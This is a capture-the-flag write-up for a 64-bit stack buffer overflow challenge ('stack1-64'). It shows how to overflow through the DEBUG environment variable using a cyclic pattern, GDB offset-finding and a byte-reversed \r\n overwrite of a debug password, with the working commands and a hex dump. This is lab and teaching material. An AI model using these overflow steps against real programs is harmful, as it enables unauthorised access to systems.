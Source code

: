 # stack1-64

file @ dir: `/problems/stack1r-64_6_f8971f22ac04a7dad46dfe8bde78b565`<br>
Using ENV to overwrite debug_password and get debug value from file

## Steps
> [!NOTE]
> Code in ./stack1.c

1) exploiting an enviornment var
- `generator_mode = getenv("DEBUG")`
- thus, we need to set the DEBUG env variable as some sort of patterened text to figure out exactly where it is overflowing
  - export DEBUG=`pwn cyclic -n4 256`
- echo $DEBUG

`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac`

1) inital GDB

- `gdb stack1-64`
- `b main`
- `r`
- next instruction until the buffer is coppied into a new variable with strcpy
- `p &debug_password`
  - `0x7fffffffe32c`
  - `x/s 0x7fffffffe32c`
    - **caab**
  - find the above string in the dump

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab**caab**daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

2) What is the new exploit string

- replace `caab` with `0x0d0a0d0a` (what the debug pswd is set to in code)

### What is 0x0d0a0d0a

`0x0D0A0D0A` is a hexadecimal representation of a sequence of bytes. Breaking it down:

- unhex 0x0d0a0d0a prints 2 blank lines
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)
- so, at `caab`, we need `\r\n\r\n`



3) add new exploit string to env

- export DEBUG=$(printf "<string>") 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n
- to test, we can run `echo "$DEBUG" | cat -A`
- this should print:
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab^M\$^M$
> 
> ^M is \r and $ is \n

### echoing into a pipe to hex:

` echo $DEBUG | hex`
>...7a61616262616162  0d200d0a
why is the ending not 0x0d0a0d0a
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 20 (hex) = 32 (decimal) = Space (" ")
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)

*I must try a different approach*

4) new input method

` 
printf -v DEBUG "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n"
export DEBUG
`
- This did not work due to the memory being reversed - the actual exploit string was the same but with \n\r\n\r at the end.

verify above by checking:
`echo -n "$DEBUG" | od -tx1`

```
0000000 61 61 61 61 62 61 61 61 63 61 61 61 64 61 61 61
0000020 65 61 61 61 66 61 61 61 67 61 61 61 68 61 61 61
0000040 69 61 61 61 6a 61 61 61 6b 61 61 61 6c 61 61 61
0000060 6d 61 61 61 6e 61 61 61 6f 61 61 61 70 61 61 61
0000100 71 61 61 61 72 61 61 61 73 61 61 61 74 61 61 61
0000120 75 61 61 61 76 61 61 61 77 61 61 61 78 61 61 61
0000140 79 61 61 61 7a 61 61 62 62 61 61 62 0a 0d 0a 0d
0000160 
```

Now, once ran - the flag was provided!
